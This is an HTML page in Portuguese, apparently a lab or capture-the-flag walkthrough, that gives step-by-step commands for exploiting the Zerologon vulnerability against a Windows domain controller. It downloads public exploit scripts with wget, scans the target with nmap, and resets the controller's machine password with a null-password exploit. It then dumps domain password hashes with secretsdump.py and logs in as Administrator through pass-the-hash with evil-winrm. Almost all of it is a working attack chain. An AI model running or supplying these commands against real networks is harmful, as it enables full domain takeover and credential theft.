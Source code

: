 <!DOCTYPE html>
<html lang="pt-br">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Tutorial de Utilização de Ferramentas com Impacket</title>
    <style>
        body {
            font-family: Arial, sans-serif;
            line-height: 1.6;
            margin: 20px;
        }
        h1, h2 {
            color: #333;
        }
        code {
            background: #f4f4f4;
            border: 1px solid #ddd;
            padding: 2px 4px;
            border-radius: 4px;
        }
        pre {
            background: #f4f4f4;
            border: 1px solid #ddd;
            padding: 10px;
            border-radius: 4px;
            overflow-x: auto;
        }
    </style>
</head>
<body>
    <h1>Tutorial para Utilização de Ferramentas de Exploração com Impacket</h1>
    <h2>1. Instalação do <code>virtualenv</code></h2>
    <p>Primeiro, instale o <code>virtualenv</code> se ainda não o tiver. Isso cria ambientes virtuais isolados para seus projetos Python.</p>
    <pre><code>python3 -m pip install virtualenv</code></pre>
    <h2>2. Criação e Ativação do Ambiente Virtual</h2>
    <p>Crie um ambiente virtual chamado <code>impacketEnv</code> e ative-o.</p>
    <pre><code>python3 -m virtualenv impacketEnv
source impacketEnv/bin/activate</code></pre>
    <h2>3. Instalação do Impacket</h2>
    <p>Instale a biblioteca <code>impacket</code> diretamente do repositório GitHub.</p>
    <pre><code>pip install git+https://github.com/SecureAuthCorp/impacket</code></pre>
    <h2>4. Download de Scripts Necessários</h2>
    <p>Baixe os scripts necessários para realizar os testes. Utilize o <code>wget</code> para isso.</p>
    <pre><code>wget https://raw.githubusercontent.com/SecuraBV/CVE-2020-1472/master/zerologon_tester.py
wget https://raw.githubusercontent.com/Sq00ky/Zero-Logon-Exploit/master/zeroLogon-NullPass.py</code></pre>
    <h2>5. Varredura de Portas com Nmap</h2>
    <p>Realize uma varredura no IP alvo para descobrir serviços e versões. Substitua <code>10.10.89.129</code> pelo IP do alvo.</p>
    <pre><code>nmap -sC -sV 10.10.89.129</code></pre>
    <h2>6. Execução do Script de Exploração</h2>
    <p>Execute o script <code>zeroLogon-NullPass.py</code> para explorar a vulnerabilidade. Substitua <code>DC01</code> e <code>MACHINE_IP</code> pelos valores apropriados.</p>
    <pre><code>python3 zeroLogon-NullPass.py DC01 MACHINE_IP</code></pre>
    <h2>7. Dump de Segredos</h2>
    <p>Utilize o <code>secretsdump.py</code> para obter hashes de senha. Substitua <code>DC01\$</code> e <code>MACHINE_IP</code> pelos valores apropriados.</p>
    <pre><code>secretsdump.py -just-dc -no-pass DC01\$@MACHINE_IP</code></pre>
    <h2>8. Autenticação Remota com Evil-WinRM</h2>
    <p>Use <code>evil-winrm</code> para autenticação remota. Substitua <code>10.10.89.129</code> pelo IP do alvo e <code>&lt;FOUND HASH IN PREVIOUS ANSWER&gt;</code> pelo hash encontrado no passo anterior.</p>
    <pre><code>evil-winrm -i 10.10.89.129 -u Administrator -H &lt;FOUND HASH IN PREVIOUS ANSWER&gt;</code></pre>
</body>
</html>
